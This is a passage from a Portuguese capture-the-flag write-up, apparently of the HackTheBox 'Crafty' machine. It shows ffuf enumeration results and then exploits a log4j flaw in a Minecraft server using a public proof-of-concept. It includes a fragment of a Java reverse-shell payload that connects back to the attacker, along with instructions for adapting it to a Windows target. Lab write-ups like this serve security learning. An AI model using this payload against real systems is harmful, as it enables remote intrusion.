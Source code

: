 ```shell
Index.html              [Status: 301, Size: 145, Words: 9, Lines: 2, Duration: 1050ms]
coming-soon             [Status: 200, Size: 1206, Words: 74, Lines: 36, Duration: 377ms]
coming-soon.html        [Status: 301, Size: 152, Words: 9, Lines: 2, Duration: 423ms]
css                     [Status: 301, Size: 145, Words: 9, Lines: 2, Duration: 461ms]
home                    [Status: 200, Size: 1826, Words: 99, Lines: 59, Duration: 325ms]
img                     [Status: 301, Size: 145, Words: 9, Lines: 2, Duration: 322ms]
index.html              [Status: 301, Size: 145, Words: 9, Lines: 2, Duration: 359ms]
js                      [Status: 301, Size: 144, Words: 9, Lines: 2, Duration: 365ms]
:: Progress: [61428/61428] :: Job [1/1] :: 769 req/sec :: Duration: [0:02:08] :: Errors: 0 ::
```
{: .nolineno }
Busca por subdomínios em `crafty.htb` e diretórios em `play.crafty.htb` com FFUF sem retorno.

Essa versão do minecraft é vulnerável a log4j
Esse video me ajudou entender como tudo funciona.

{% include embed/youtube.html id='7qoPDq41xhQ' %}

Gastei horas procurando versão free do Minecraft até que reclamei no forum e me deram uma luz sobre o [TLauncher](https://tlauncher.org/en/) do minecraft.

## **Acesso/FootHold**

Escolhi a mesma versão do server, retornada pelo nmap.  
![alt text](/assets/img/crafty/crafty2.png)  

### Exploit  
<https://github.com/kozmer/log4j-shell-poc>  
Precisa ter o Java 8 exatamente essa versão
jdk-8u20-linux-x64.tar.gz.  
Baixe de acordo com seu sistema [aqui](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html) tem que criar conta.  
Extrair na pasta do exploit.  
Editei o `poc.py` pois temos uma máquina windows como vitima,
Onde esta `/bin/sh` mude para `cmd.exe` ou `powershell.exe`

```python
public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
```
{: .nolineno }
